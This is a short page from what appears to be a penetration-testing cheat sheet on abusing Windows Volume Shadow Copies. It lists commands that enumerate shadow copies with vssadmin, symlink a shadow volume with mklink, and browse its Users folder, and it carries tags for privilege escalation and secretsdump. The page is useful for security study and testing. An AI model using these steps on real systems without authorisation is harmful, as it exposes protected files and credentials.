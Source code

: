 ```yaml
---
title: "Volume Shadow Copies"
date: 2024-8-22
tags: ["Volume Shadow Copies", "privesc", "Windows", "secretsdump", "vsc"]
---
```


### Abuse #1: Recover data from shadow copies

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check

<div>

```console
vssadmin list shadows
```

</div>

#### 2. Create symlink and expose the volume

<div>

```console
cmd /c mklink /d C:\VSS <SHADOW_COPY_VOLUME_PATH>
```

</div>

#### 3. Access

<div>

```console
ls C:\VSS\Users
```

</div>

{{< /tabcontent >}}

<br>